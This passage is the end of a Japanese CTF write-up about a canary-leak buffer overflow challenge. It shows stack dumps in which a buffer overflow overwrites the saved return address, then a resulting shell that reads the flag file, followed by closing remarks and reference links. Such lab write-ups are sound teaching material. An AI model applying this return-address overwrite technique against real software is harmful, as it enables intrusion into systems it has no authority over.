 ```
 0x00007fff26b59298 | 0x6161616161616161
 0x00007fff26b592a0 | 0x6161616161616161
 0x00007fff26b592a8 | xxxxx hidden xxxxx  <- canary
 0x00007fff26b592b0 | 0x0000000000000000  <- saved rbp
 0x00007fff26b592b8 | 0x00007f50fccfa083  <- saved ret addr
 0x00007fff26b592c0 | 0x00007f50fcef9620
 0x00007fff26b592c8 | 0x00007fff26b593a8

How old are you?

Thank you!

 [Addr]             | [Value]
====================+===================
 0x00007fff26b59280 | 0x6161616161616161  <- buf
 0x00007fff26b59288 | 0x6161616161616161
 0x00007fff26b59290 | 0x6161616161616161
 0x00007fff26b59298 | 0x6161616161616161
 0x00007fff26b592a0 | 0x6161616161616161
 0x00007fff26b592a8 | xxxxx hidden xxxxx  <- canary
 0x00007fff26b592b0 | 0x6161616161616161  <- saved rbp
 0x00007fff26b592b8 | 0x0000000000401564  <- saved ret addr
 0x00007fff26b592c0 | 0x00000000004012c2
 0x00007fff26b592c8 | 0x00007fff26b593a8

Congratulations!
[INFO] Switching to interactive mode

> ls
chall
flag.txt
redir.sh

> cat flag.txt
ctf4b{y0u_c4n_l34k_c4n4ry_v4lu3}
```

ゲットできました！

## さいごに

rewriter2はあと少しで解けそうな感じがしたので、来年似たような問題が出たら解けるようにがんばります。

## Ref

- https://github.com/peter50216/pwntools-ruby
- https://tan.hatenadiary.jp/entry/2023/06/05/001017
- https://greentea-hoge.hatenablog.com/entry/2023/06/04/141014
